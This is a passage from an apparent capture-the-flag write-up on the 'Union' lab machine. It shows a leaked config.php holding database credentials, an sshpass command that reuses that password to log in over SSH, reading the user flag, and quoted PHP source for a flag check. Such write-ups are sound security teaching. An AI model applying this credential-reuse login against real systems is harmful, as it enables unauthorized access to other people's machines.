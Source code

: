 
I’m most interested in `config.php` and `firewall.php`. I’ll start with
`config.php`:

    
    
    <?php
      session_start();
      $servername = "127.0.0.1";
      $username = "uhc";
      $password = "uhc-11qual-global-pw";
      $dbname = "november";
    
      $conn = new mysqli($servername, $username, $password, $dbname);
    ?>
    

This is what handles the DB connection.

### SSH

I’ve got usernames and now a password, and it happens those work together to
get SSH access:

    
    
    oxdf@parrot$ sshpass -p uhc-11qual-global-pw ssh uhc@10.10.11.128
    ...[snip]...
    uhc@union:~$ 
    

And `user.txt`:

    
    
    uhc@union:~$ cat user.txt
    bb0c4bf5************************
    

## Shell as www-data

### Enumeration

#### Web Source

With access as uhc, there’s not much new to access. I found myself looking at
the web source. `challenge.php` is where I submitted the flag. It has the
following logic:

    
    
    <?php
      require('config.php');
      $_SESSION['Authenticated'] = False;
    
      if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {
        $sql = "SELECT * FROM flag where one = ?";
        $stmt = $conn->prepare($sql);
        $stmt->bind_param("s", $_POST['flag']);
        $stmt->execute();
        $stmt->store_result();
        if ($stmt->num_rows == 1) {
          $_SESSION['Authenticated'] = True;
          header("Location: /firewall.php");
          exit;
        }
      }
    ?>
    ...[snip]...
    